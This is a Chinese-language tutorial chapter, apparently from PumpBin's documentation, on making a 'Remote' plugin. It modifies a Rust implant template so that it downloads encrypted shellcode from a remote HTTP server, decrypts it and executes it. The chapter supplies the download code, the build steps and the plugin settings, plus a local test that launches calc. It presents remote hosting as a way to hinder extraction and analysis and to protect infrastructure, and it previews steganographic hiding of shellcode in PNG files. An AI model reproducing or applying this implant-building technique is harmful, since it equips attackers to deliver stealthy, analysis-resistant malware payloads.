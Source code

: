 # Remote Type

在这一章, 我们将制作一个`Remote`类型的Plugin.

`Remote`类型的Plugin, shellcode托管在远程服务器上, 可以通过控制shellcode的访问性, 使shellcode更难被提取分析, 从而保护基础设施.

例如, 在植入物运行成功后, 将远程shellcode文件删除. (前提是你没有其他依赖这个链接的植入物需要运行)

建议始终给每个生成的最终植入物设置一个唯一的shellcode托管地址(一个最终植入物对应一个链接)

## 制作二进制植入物模板

我们将在[上一章代码](https://github.com/pumpbin/pumpbin/tree/main/examples/create_thread_encrypt)的基础上进行修改

首先, 我们需要一种方式从远程服务器获取加密的shellcode文件, 而不是将shellcode占位数据预先包含到二进制植入物模板中.

删除build.rs (不再需要生成shellcode占位数据).

在Cargo.toml末尾添加依赖项, 本例中使用http协议作为演示. (可以使用任何协议, 或以任何方式实现下载函数)

```toml
reqwest = { version = "0.12.5", features = ["blocking"] }
```

在main.rs的main函数上添加如下下载函数

```rust
fn download() -> Vec<u8> {
    const URL: &[u8; 81] =
        b"$$UURRLL$$aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
    let url = CStr::from_bytes_until_nul(URL).unwrap();
    reqwest::blocking::get(url.to_str().unwrap())
        .unwrap()
        .bytes()
        .unwrap()
        .to_vec()
}
```

$$UURRLL$$是一个`Prefix`, 这意味着URL常量会以有效数据+随机数据填充, 所以建议预留一部分字节让PumpBin填充随机字节.

由于url或之类的托管地址大部分都是可打印字符, 所以此处的处理与第一章中$$SHELLCODE$$ `Prefix`略有不同.

我们不再需要Size Holder来区分有效数据, 相反PumpBin会在有效数据后添加一个\\x00字节, 以定位有效数据.
(所以实际最大URL长度会比Max Len少一个字节, 因为末尾一定会添加一个\\x00字节)

这在rust中很容易实现, 其他语言应该也有类似的实现. 如果没有, 只需要for循环逐字节判断是否是\\x00字节.

实现了下载函数后, 我们需要在main.rs中使用它替换shellcode占位数据

删除main.rs中main函数的前四行代码, 并在第一行添加以下代码

```rust
let shellcode = download();
let shellcode = shellcode.as_slice();
```

修改后的main函数如下

```rust
fn main() {
    let shellcode = download();
    let shellcode = shellcode.as_slice();
    let shellcode = decrypt(shellcode);
    let shellcode_size = shellcode.len();
    ...
```

编译修改后的`create_thread`项目, 我们将得到一个使用http协议下载加密shellcode文件的二进制植入物模板.

```sh
cargo b -r
```

## 制作Plugin

使用PumpBin Maker制作Plugin, 与前面章节类似.

Prefix填写`$$UURRLL$$`

Max Len填写URL常量数组引用的长度 81.

Type选择`Remote`

> 下载编译后的[aes256_gcm.wasm](https://github.com/pumpbin/plug-in/releases), 并将文件路径输入到到PumpBin Maker中的`Encrypt Shellcode Plug-in`输入框中. (也可以使用文件选择对话框选择下载的`aes256_gcm.wasm`文件)

> Plugin Name填写first_plugin. (这个字段是Plugin的唯一标识, 这意味着用户无法同时安装两个同名的Plugin)

> Windows Exe选择我们上面编译好的二进制植入物模板. (也可以直接填写文件路径)

> 点击Generate, 保存生成的b1n文件

## 测试Plugin

用PumpBin安装制作的Plugin, 点击Encrypt按钮选择`w64-exec-calc-shellcode-func`生成加密的shellcode文件.

使用Python3在加密后的shellcode文件同级目录下开启一个http服务

```sh
python -m http.server 8000
```

加密shellcode文件的本地http地址应该是`http://127.0.0.1:8000/shellcode.enc`

填入PumpBin, 生成最终植入物, 运行应该看到访问请求, calc程序被启动.

<div class="warning">

如果使用的Encrypt Shellcode Plug-in使用随机加密密码

每次点击Encrypt按钮成功加密shellcode后, 都将更新内部记录的随机加密密码(因为需要将真实加密密码patch到二进制植入物模板中).
如果你加密了一次shellcode(称其为shellcode0), 将shellcode0上传到远程服务器, 并将链接填写到PumpBin中,
但是在生成最终植入物前, 又加密了一次shellcode(称其为shellcode1), 然后再生成最终植入物, 那么生成的最终植入物只能解密shellcode1, 而无法解密远程的shellcode0文件.

</div>

后续章节将介绍如何开发PumpBin Extism Plug-in, 以及更多的内部细节, 帮助赛博安全研究员应对复杂的需求.

比如: 如何在用户点击Encrypt按钮加密shellcode后将加密的shellcode隐写到png文件中, 再将png文件上传到某个网站,
上传成功后将远程png文件访问地址自动填写到shellcode url输入框中.

本例中的完整项目文件在PumpBin代码仓库的[examples/create_thread_remote](https://github.com/pumpbin/pumpbin/blob/main/examples/create_thread_remote/src/main.rs).
